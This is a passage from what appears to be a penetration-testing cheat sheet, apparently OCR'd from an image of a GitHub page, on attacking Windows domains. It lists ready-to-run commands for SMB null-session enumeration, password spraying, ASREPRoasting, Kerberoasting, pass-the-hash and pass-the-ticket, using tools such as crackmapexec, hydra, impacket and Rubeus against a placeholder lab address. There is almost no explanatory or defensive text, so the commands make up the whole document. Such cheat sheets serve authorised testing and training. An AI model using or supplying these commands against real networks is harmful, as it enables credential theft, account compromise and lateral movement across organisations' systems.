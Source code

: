 ### SMB Enumeration
```bash
# Share enumeration
smbclient -L //10.10.10.10 -U ""

# Null session enumeration
enum4linux -a 10.10.10.10
```

## Credential Attacks

### Password Spraying
```bash
# Using crackmapexec
crackmapexec smb 10.10.10.10 -u users.txt -p 'Password123!'

# Using hydra
hydra -L users.txt -p 'Password123!' smb://10.10.10.10
```

### ASREPRoasting
```bash
# Using impacket
python3 GetNPUsers.py domain.com/ -usersfile users.txt -dc-ip 10.10.10.10

# Using Rubeus
Rubeus.exe asreproast /format:hashcat /outfile:hashes.txt
```

### Kerberoasting
```bash
# Using impacket
python3 GetUserSPNs.py domain.com/user:password@10.10.10.10 -dc-ip 10.10.10.10

# Using Rubeus
Rubeus.exe kerberoast /format:hashcat /outfile:hashes.txt
```

## Lateral Movement

### Pass-the-Hash
```bash
# Using crackmapexec
crackmapexec smb 10.10.10.10 -u user -H aad3b435b51404eeaad3b435b51404ee:hash

# Using pth-winexe
pth-winexe -U domain/user%aad3b435b51404eeaad3b435b51404ee:hash //10.10.10.10 cmd
```

### Pass-the-Ticket
```bash
# Using impacket
python3 psexec.py domain.com/user@10.10.10.10 -k

# Using Rubeus
Rubeus.exe ptt /ticket:ticket.kirbi
```
